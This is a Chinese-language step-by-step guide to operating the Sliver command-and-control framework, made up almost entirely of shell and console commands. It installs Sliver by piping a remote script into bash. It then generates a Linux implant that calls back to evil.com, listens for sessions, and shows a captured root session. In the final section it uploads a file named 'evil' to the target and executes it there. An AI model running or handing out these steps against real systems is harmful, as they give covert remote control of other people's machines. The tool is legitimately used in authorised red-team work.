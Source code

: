 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(sec@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/scripts/raw/main/sliver_install.sh | bash
```

## 2. Usage

### 2.1. Server

> 用于与目标建立稳定连接

开机自启

```
┌──(sec@debian)-[~]
└─$ sudo systemctl enable --now sliver.service
```

进入 Server

```
┌──(sec@debian)-[~]
└─$ sliver-server
```

退出 Server

```
[server] sliver > exit
```

### 2.1.1. 连接 Client

开启 `31337` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 31337
```

生成 Client 配置

```
[server] sliver > new-operator -n sec -l evil.com -p 31337 -s ~/.sliver-client/configs/evil.com.cfg
```

开启多端控制

```
[server] sliver > multiplayer
```

查看已加入的控制器

```
[server] sliver > operators
```

### 2.1.2. 连接 Implant

开启 `65135` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 65135
```

生成 Implant

```
[server] sliver > generate -o linux -m evil.com:65135 -s ~/implant
```

监听 Implant

```
[server] sliver > mtls -l 65135
```

查看监听任务

```
[server] sliver > jobs
```

等待目标执行 Implant 后查看会话

```
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health
========== =========== ===================== ========== ========== ================== =========
 685a7144   mtls        example.com:32804   morpheus   root       linux/amd64        [ALIVE]
```

进入会话

```
[server] sliver > use  685a7144
```

### 2.2. Client

> 用于在 Client 控制与 Server 建立连接的 Implant

导入 Client 配置文件

```
┌──(sec@debian)-[~]
└─$ sliver-client import ~/.sliver-client/configs/evil.com.cfg
```

运行 Client

```
┌──(sec@debian)-[~]
└─$ sliver-client
```

查看已加入的控制器

```
[server] sliver > operators
```

退出 Client

```
sliver > exit
```

### 2.3. Implant

断开会话

```
[server] sliver (implant) > close
```

上传本地文件到目标

```
[server] sliver (implant) > upload ./evil ./example
```

添加执行权限

```
[server] sliver (implant) > chmod ./example 755
```

执行程序

```
[server] sliver (implant) > execute ./example
```

---

Refrences

- [sliver](https://github.com/BishopFox/sliver)

